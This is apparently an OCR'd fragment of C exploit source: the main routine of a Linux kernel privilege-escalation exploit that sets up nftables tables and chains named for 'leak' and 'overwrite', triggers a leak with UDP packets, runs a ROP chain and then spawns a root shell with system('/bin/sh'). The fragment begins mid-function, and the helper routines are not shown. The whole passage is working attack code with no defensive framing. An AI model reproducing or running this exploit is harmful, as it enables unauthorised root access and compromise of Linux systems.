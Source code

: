 ```c
        perror("thread create error : ");
        exit(0);
    }

    printf("  [-] setup nftables\n");

    if (create_table(NFPROTO_IPV4, "filter_for_leak", false) == 0)
    {
        perror("error creating table");
        exit(EXIT_FAILURE);
    }

    if (create_chain("filter_for_leak", "input", NF_INET_LOCAL_IN) == 0)
    {
        perror("error creating chain");
        exit(EXIT_FAILURE);
    }

    if (create_chain("filter_for_leak", "leak", 0) == 0)
    {
        perror("error creating chain");
        exit(EXIT_FAILURE);
    }

    if (create_table(NFPROTO_IPV4, "filter_for_overwrite", false) == 0)
    {
        perror("error creating table");
        exit(EXIT_FAILURE);
    }

    if (create_chain("filter_for_overwrite", "input", NF_INET_LOCAL_IN) == 0)
    {
        perror("error creating chain");
        exit(EXIT_FAILURE);
    }

    if (create_chain("filter_for_overwrite", "overwrite", 0) == 0)
    {
        perror("error creating chain");
        exit(EXIT_FAILURE);
    }

    install_rule_for_leak();
    install_rule_for_overwrite();

    printf("  [-] send & recv udp packet\n");

    usleep(1000);
    udp_client(udpbuf_for_leak, htons(11111), LEAK);

    pthread_join(p_thread_for_leak, (void **)&status_for_leak);

    do_rop();

    pthread_join(p_thread_for_rop, (void **)&status_for_rop);

    if (ROP_FLAG == 1)
    {
        printf("[+] Popping root shell!\n");
        system("/bin/sh");
    }

    return 0;
```